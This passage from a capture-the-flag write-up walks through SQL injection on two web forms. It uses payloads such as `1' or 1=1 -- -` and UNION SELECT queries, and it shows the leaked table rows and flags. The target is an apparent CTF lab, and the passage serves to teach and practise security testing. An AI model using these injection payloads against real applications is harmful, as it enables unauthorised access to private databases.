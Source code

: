 Try to fix the query by adding an `OR` statement as suggested and also a comment to terminate the query right after the `OR` statement:
```
1' or 1=1 -- -
```

Bingo:
```
Id    Pseudonyme  Téléphone 	Adresse                  Code
1     RIRI        0145489625	5 avenue des groseilles  OpérationEpervier
2     FIFI        0145889625	1 rue des myrtilles      OpérationFaucon
3     LOULOU      0115789625	1 rue des pommes         OpérationFaucon
456   JAJA        0145769625	1 rue des pommes         OpérationGorfou
472   RORO        0189999625	5 boulevard des poires   OpérationFaucon
7456  TITI        404CTF{0145769456}	404CTF{21 rue des kiwis}	OpérationGorfou
7865  DEDE        0145781225	3 avenue des oranges     OpérationMouette
16579 DIDI        0145789625	1 rue des pommes         OpérationEpervier
```

We have our first flags:
- 404CTF{0145769456}
- 404CTF{21 rue des kiwis}

## 2nd form - UNION des vendeurs d’OR de la région
Sending a quote returns the same statement as in the previous step, so start with an `OR` statement closed by a query like before and also add a `UNION` statement as suggested:
```
1' or 1=1 union select 1-- -
```

We get a different MySQL error, essentially saying that the number of selected columns is wrong:
```
Array ( [0] => 21000 [1] => 1222 [2] => The used SELECT statements have a different number of columns )
```

We can fix it by increasing the number of selected columns. Two columns can fix it:
```
1' or 1=1 union select 1,2-- -
```

We can now control what is returned for Pseudo `1`:
```
Pseudo  Coopérative
DEDE    Collaboration des négociants de minerais de Franche-Comté
DIDI    Association des vendeurs d'or de France
FIFI    Corporation des fournisseurs de pierres précieuses d'Île-de-France
JAJA    Regroupement des marchands de joyaux d'Ille-et-Vilaine
LOULOU  Association des vendeurs d'or de France
RIRI    Association des vendeurs d'or de France
RORO    Corporation des fournisseurs de pierres précieuses d'Île-de-France
TITI    Regroupement des marchands de joyaux d'Ille-et-Vilaine
1       2
```

We can confirm we can inject in the field we are controlling:
```
1' or 1=1 union select 1,version()-- -
```
```
1	8.0.29
```

